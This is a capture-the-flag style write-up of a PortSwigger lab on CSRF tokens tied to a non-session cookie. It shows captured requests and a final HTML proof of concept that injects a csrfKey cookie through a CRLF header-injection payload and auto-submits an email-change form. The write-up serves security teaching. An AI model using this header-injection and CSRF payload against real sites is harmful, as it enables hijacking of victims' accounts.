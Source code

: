 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9b0fa0fc-3538-47a6-9c76-28553367992f)



## Overview :

**CSRF token is tied to a non-session cookie -**

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 

> The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be
leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com
could be leveraged to place a cookie that is submitted to secure.normal-website.com. 

**Some times csrf token is tied to a cookie but this cookie is not related to the session of the user. This happens because the application uses 2 different frameworks one for session handling and one for csrf protection and both aren't integrated together.**


## Solution :


If we update the email of wiener, browser sends a request like this.



```http
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=ZPFZy0o8QHUK2RTfyaHqKIAbc97aoQd; csrfKey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user1%40user.net&csrf=I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD
```

We see that there is a **csrf token parameter in the body of the request & a csrfkey cookie in the header**. Both has two different values.



If we change the cookie value, then we get logged out.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70cb63c0-8c3b-488f-bb16-5cc961e6024e)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b6414afc-90af-422d-be95-a04c202c32d2)

**If we log in again, we get the same csrf token & also the same csrfkey as before but different session cookie.**

```http
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=ittvGu6fBbmpHK5rPxvZDCGA8SEFOafP; csrfKey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40test.com&csrf=I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD
```

From this we can understand that system providing the CSRF protection does not integrate into the session system, but creates its own type of session that is not in sync.

**First let's login as wiener -**

- On viewing the page source, we can find he csrf token of wiener - `I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD`

- Click on inspect element & we can see that in the cookies we have the csrfkey - `yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc`


**Log in as carlos -**

Open a incognito tab and login as carlos.

Update carlos's email & capture the request,

```http
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=cV2AxFTpez3Xml0BLiEx86RJUIXHDn7T; csrfKey=hCSFtEnq0dVU2t8DajouPWfooHhpPi2q
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Dnt: 1
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test2%40test.net&csrf=FxkOmuSSG0XT01gCwdw8pDbTl1wcRGdW
```

- Carlos's csrf token - `FxkOmuSSG0XT01gCwdw8pDbTl1wcRGdW`
- Carlos's csrfkey - `hCSFtEnq0dVU2t8DajouPWfooHhpPi2q`

If we replace only the csrf token & csrf key of carlos's with wiener, the request gets accepted & the email of carlos is changed as expected.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6451487d-2e12-4431-8748-f9e3f3b1c3fb)

#### Inject csrfkey cookie value by HTTP header injection

Send the above request to POC generator.

> Note that we have only changed the csrf token value to **wiener's token**. The csrfkey value is still the same(carlos's). It has to be injected into victim's session. For this we can use a `<img>` tag, where we load the url along with HTTP header injection payload t**o inject the csrfkey value as wiener's csrf key** . Since there is no image in that url , it will trigger an error. On error it will submit the form.


```html
<img src="https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfkey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

**Final payload **

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfkey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```
